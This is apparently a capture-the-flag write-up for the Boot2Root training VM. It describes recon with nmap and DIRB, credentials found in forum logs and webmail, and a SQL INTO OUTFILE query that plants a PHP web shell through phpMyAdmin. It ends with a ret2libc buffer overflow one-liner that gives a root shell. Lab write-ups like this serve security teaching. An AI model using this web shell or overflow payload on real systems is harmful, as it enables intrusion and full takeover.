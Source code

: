  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

We need to understand what we can gain access to and where it is located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap 192.168.99.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100 and that port
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP, we're going to use DIRB to gather information about the file structure.
[DIRB](https://sourceforge.net/projects/dirb/files/)
is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpwnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6

***This finally gets us access to thor's ssh !***

------------------------------------------------------------------------------------------------

Inside there is a file called turtle and a README telling us solving the riddle will grant us zaz's ssh access

The turtle file contains instruction structured like this:

```
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 210 spaces
Recule 210 spaces
Tourne droite de 90 degrees
Avance 120 spaces

Tourne droite de 10 degrees
Avance 200 spaces
Tourne droite de 150 degrees
Avance 200 spaces
Recule 100 spaces
Tourne droite de 120 degrees
Avance 50 spaces

Tourne gauche de 90 degrees
Avance 50 spaces
```

[Turtle](https://docs.python.org/2/library/turtle.html) turns out to be a python module used to draw pictures

By using our provided script, we parse and draw what turns to write "SLASH":

![turtle](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/turtle.png)

We then md5 SLASH in order to get zaz's password: "646da671ca01bb5d84dbb5fb2238dc8e"

------------------------------------------------------------------------------------------------------

** Buffer overflow

After connecting to zaz by ssh, we find a binary file called ***exploit_me***

Exploit_me has a particularity though, it has ***root rights***, meaning it has the right to execute root binaries limited to his reach :smirk 

Lets check its content wih gdb and disasemble it:

![disas](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/disas.png)

And sure enough it uses the strcpy function, which is a well known security risk, as it doesn't compare the input size to its destination buffer. This allows to to atempt an attack by ret2libc


- We place 3 breakpoints (```b * <address>```) in the program:
  - One at the begining of the execution
  - One at the call to strcpy
  - One after the return value of strcpy

- We then run the program a first time with a random input ```OSEF``` in order to get the buffer address
- We get adsress of the system function with ```p system``` ![system](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/system.png)
- Then we fetch the address of the char str "/bin/sh" with the command: ```find &system,+9999999, "/bin/sh"```
- Finally we get the buffer size by substracting the address of $eip with the buffer address and find ***140***

- This allows us to launch the ret2lib attack with this command: 

```./exploit_me $(python -c "print('A'*140 + '\xb7\xe6\xb0\x60'[::-1] + 'OSEF' + '\xb7\xf8\xcc\x58'[::-1])")``` 
Which gives us a shell with root access !

![congrats_overflow](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats_overflow.png)



